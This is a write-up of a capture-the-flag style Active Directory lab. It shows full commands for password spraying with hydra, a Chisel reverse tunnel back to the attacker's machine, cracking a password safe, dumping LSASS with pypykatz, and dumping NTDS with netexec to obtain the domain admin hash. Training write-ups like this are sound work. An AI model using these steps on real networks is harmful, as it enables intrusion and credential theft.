

# Skills Assessment
The Credential Theft Shuffle is a systematic approach attackers use to compromise Active Directory environments by exploiting stolen credentials.

It begins with gaining initial access, often through phishing, then obtaining local administrator privileges on a machine. Attackers can then extract credentials from memory and leverage them to move laterally across the network. The ultimate goal is to escalate privileges and gain control over the domain by compromising Domain Admin accounts or performing DCSync attacks.

**Betty Jayde** works at **Nexura LLC** and uses `Texas123!@#` as her password on multiple websites.

| Host | IP Address |
| ---- | ---------- |
| DMZ01 | 10.129.*.* (External), 172.16.119.13 (Internal) |
| JUMP01 | 172.16.119.7 |
| FILE01 | 172.16.119.10 | 
| DC01 | 172.16.119.11 |

## Approach
First, I perform a Nmap scan to determine what service is running on DMZ01.
```bash
nmap -sV -sC 10.129.212.210
```
 <br>
From the results, we can see that only the SSH service is running.

We know that Betty Jayde's common password is `Texas123!@#`. We can use [username-anarchy](https://github.com/urbanadventurer/username-anarchy) to generate a list of usernames for password spraying.
```bash
echo "Betty Jayde" > betty.txt
./username-anarchy -i betty.txt > betty_list.txt
```
I will then spray the SSH service with our list of usernames for Betty Jayde.
```bash
hydra -L betty_list.txt -p 'Texas123!@#' ssh://10.129.212.210
```
It returned me a valid credential, `jbetty:Texas123!@#`. <br>
With this, I SSH-ed into DMZ01.
```bash
ssh jbetty@10.129.212.210
```
Looking into `.bash_history`, I noticed a line that says `sshpass -p "dealer-screwed-gym1" ssh hwilliam@file01`. <br>
This could mean that we could log in as hwilliam on file01 with "dealer-screwed-gym1".

Before that, let's set up proxychains with [Chisel](https://github.com/jpillora/chisel).<br>
We can transfer `chisel` from our machine to DMZ01 as follows:
```bash
scp chisel jbetty@10.129.212.210
```
After configuring our proxychains configuration file, we set up proxychains. <br>
On our machine:
```bash
sudo ./chisel server --reverse
```
On DMZ01:
```bash
./chisel client 10.10.14.120:8080 R:socks	## 10.10.14.120 is our IP
```
After that, we should be able to reach other hosts in the internal network by adding `proxychains`.

Based on the name, FILE01, I deduce that the machine could be running SMB, FTP or NFS.<br>
Let's try to enumerate the SMB service.
```bash
proxychains smbmap -H 172.16.119.10 -u hwilliam -p 'dealer-screwed-gym1' -d nexura.htb
```
 <br>
We can see that there are a few available shares for us to access.

We can use `smbclient` to connect to the shares and enumerate further.
```bash
proxychains smbclient //172.16.119.10/HR -U 'nexura.htb/hwilliam%dealer-screwed-gym1'
```
<br>
Looking around, I noticed there was an interesting file in the `Archive` directory, `Employee-Passwords_OLD.psafe3`, which could store employees' passwords. We can download the file into our machine as below:
```bash
smb: \Archive\> get Employee-Passwords_OLD.psafe3
```
To read the .psafe3 file, `pwsafe` requires a master password, which we could obtain with John the Ripper.
```bash
pwsafe2john Employee-Passwords_OLD.psafe3 > pwsafedump
john --wordlist=/usr/share/wordlists/rockyou.txt pwsafedump
john pwsafedump --show
```
With this, we obtained the master password, `michaeljackson` and we can read the .psafe3 file.
```bash
pwsafe Employee-Passwords_OLD.psafe3
```
The obtained credentials are as follows:
- David Brittni, `bdavid:caramel-cigars-reply1`
- Tom Sandy, `stom:fails-nibble-disturb4`
- William Hallam, `hwilliam:warned-wobble-occur8`

Next, we look into using JUMP01. Since it is a JUMP machine, I checked possible services and found RDP running. We can use `hydra` to find valid credentials from those we just found.
```bash
proxychains hydra -L rdpuser_ls.txt -P rdppass_ls.txt rdp://172.16.119.7 -t 1
```
We found a set of valid credentials, `bdavid:caramel-cigars-reply1`.<br>
I proceeded to use `xfreerdp3` to RDP into JUMP01.
```bash
proxychains xfreerdp3 /u:bavid /p:'caramel-cigars-reply1' /v:172.16.119.7 /d:nexura.htb /drive:linux,.
```
I first checked the privileges that bdavid has on the machine.<br>
<br>
It shows that bdavid is part of BUILTIN\Administrators, which is of high privileges.

Let's try to dump LSASS, which stores sensitive credentials in memory. <br>
We can do this by opening Task Manager and create a dump file from Local Security Authority Process. <br>
<br>
Now, we can transfer `lsass.dmp` to our machine through the shared drive.

We can then use [pypykatz](https://github.com/skelsec/pypykatz) to extract theh credentials from the memory's "screenshot".
```bash
pypykatz lsa minidump lsass.dmp
```
With this, we obtained another set of credentials, `stom:calves-warp-learning1` on DC01.
<br>


Using `netexec`, we can dump NTDS credentials quickly.
```bash
proxychains netexec smb 172.16.119.11 -u stom -p calves-warp-learning1 -M ntdsutil
```


With this, we obtained the NT hash for NEXURA\Administrator: `36e09e1e6ade94d63fbcab5e5b8d6d23`